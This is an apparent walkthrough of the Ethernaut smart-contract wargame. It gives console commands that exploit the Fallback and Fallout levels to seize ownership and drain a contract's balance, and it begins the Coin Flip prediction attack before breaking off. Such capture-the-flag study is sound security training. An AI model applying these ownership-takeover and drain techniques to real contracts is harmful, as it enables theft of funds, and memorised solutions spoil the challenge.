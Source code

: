 ## <a name='Fallback'></a> 1. Fallback

> You will beat this level if:
>
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```solidity
// First, we contribute some ether:
await contract.contribute({ value: 5 })

// Then we send some ether to make us the owner
sendTransaction({ from: player, to: instance, value: 5 })

// Verify we have claimed ownership
await contract.owner()

// Reduce balance to 0
await contract.withdraw()
```

## <a name='Fallout'></a> 2. Fallout

> Claim ownership of the contract to complete this level.

The contract's constructor is incorrectly titled `Fal1out` instead of `Fallout`. We can call it to claim ownership.

```solidity
// Call the function to claim ownership
contract.Fal1out()

// Verify we have claimed ownership
await contract.owner()
```

## <a name='CoinFlip'></a> 3. Coin Flip

> "Use your psychic abilities" to guess the correct outcome 10 times in a row.

In order to solve, we have a few objectives:

1. Set the contract instance as our target contract
2. Recreate the `flip()` function
3. Pass the `flip()` output into the target instance

Let's begin with recreating a portion of the `flip()` function. We will replicate useful variables of the original function.

```solidity
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

Now, let's setup the target contract. This supports our first objective.
